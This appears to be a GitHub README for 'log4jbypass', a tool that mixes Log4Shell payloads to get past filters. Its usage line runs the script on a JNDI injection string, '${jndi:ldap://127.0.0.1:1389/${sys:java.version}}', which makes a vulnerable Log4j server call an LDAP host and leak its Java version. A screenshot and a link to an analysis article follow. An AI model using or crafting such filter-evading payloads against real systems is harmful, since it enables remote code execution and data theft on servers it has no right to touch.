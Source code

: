 # log4jbypass
log4j payload mix

## useage
python log4j_bypass.py '${jndi:ldap://127.0.0.1:1389/${sys:java.version}}'
![image](https://user-images.githubusercontent.com/38160485/145961939-0d8f7c3b-485f-48e4-8d46-7fe84d02a1f4.png)

## 解析
https://mp.weixin.qq.com/s/mExv1BWxZoYgFkmu0akQcg

